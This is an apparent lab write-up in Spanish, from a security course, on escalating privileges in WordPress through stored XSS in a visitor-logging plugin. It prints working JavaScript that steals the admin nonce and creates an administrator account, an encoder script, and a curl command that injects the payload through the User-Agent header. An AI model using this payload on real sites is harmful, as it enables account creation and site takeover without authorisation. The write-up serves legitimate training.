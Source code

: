 # Walk: Escalada de privilegios mediante XSS - POC

## Fecha: 16/01/2025
## Host: 
## IP: 192.168.245.16

---

## Objetivo
Crear un usuario con permisos de administrador por medio de XSS.
De esta POC salen las respuestas del laboratorio. 8.4.5
---
## Herramientas
1. BurpSuite 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: De la POC anterior, podemos definir un vector de ataque.
2. Paso 2: Exploramos las cookies en busca del atributo HttpOnly en false.
	 - al no encontrar cookies de interes que nos sirvan optamos por **cambiar el angulo del vector de ataque**
3. Paso 3: Se torna necesario cubrir otra clase de ataque, y se explora la utilizacion del **nonce (Number Used Once) ** de wordpress
	 El nonce en WordPress actúa como una medida de seguridad para validar que una acción o solicitud 
	 proviene de una fuente legítima y autorizada. Su objetivo principal es prevenir ataques CSRF (Cross-Site Request Forgery), 
	 pero también puede proteger contra algunas variantes de ataques XSS o abuso de endpoints sensibles.
4. Paso 4:Definicion del **Vector de ataque**: 
	Entonces, sabiendo de la POC anterior que **Visitor** es vulnerable a XSS por medio 
	del User-Agent en la cabecera podemos obtener el **nonce** y crear un usuario con permisos de administrador.
5. Paso 5: Generacion de Payload:
	1. Obtenemos el **nonce**:
	```
		var ajaxRequest = new XMLHttpRequest();
		var requestURL = "/wp-admin/user-new.php";
		var nonceRegex = /ser" value="([^"]*?)"/g;
		ajaxRequest.open("GET", requestURL, false);
		ajaxRequest.send();
		var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
		var nonce = nonceMatch[1];

	```
	2. Creamos el usuario con permisos Administrativos:\
	``` 
		var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
		ajaxRequest = new XMLHttpRequest();
		ajaxRequest.open("POST", requestURL, true);
		ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		ajaxRequest.send(params);

	```
6. Paso 6: Minificamos y codificamos el JS para enviarlo en el User-Agent en la cabecera.
7. Paso 7: Una vez minificado el codigo anterior lo guardamos en un archivo:
	- echo 'var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);' > input.txt
	- creamos un script en python para codificarlo:
	``` 
		def encode_to_python(string):
		    output = ""
    		    for pos in range(len(string)):
        		  output += str(ord(string[pos]))
        		  if pos != len(string) - 1:
            	          output += ","
    			  return output

		# Leer el string desde un archivo
		with open("input.txt", "r") as file:
    		input_string = file.read().strip()  # Lee el contenido del archivo y elimina espacios o saltos de línea

		# Llamar a la función con el string leído
		encoded = encode_to_python(input_string)

		# Imprimir el resultado
		print(encoded)

	```
	- el output de esto debe lucir algo asi: ...118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,...
	- Esta alternativa con python es una eleccion personal. Es posible lograr el mismo resultado con javascript desde el navegador o instalando NodeJS.
8. Paso 8 (Final): Ejecutamos el Payload:
	- curl -i http://offsecwp --user-agent "<script>...payload ...118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,...</script>" --proxy 127.0.0.1:8080
	- antes de ejecutar el script anterior abrimos Burpsuite con el interceptor apagado y corroboramos que el codigo de respuesta sea 200
	- Verificamos en el panel de Visitors > Start para ejecutar nuestro Payload y ver el usuario creado.
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

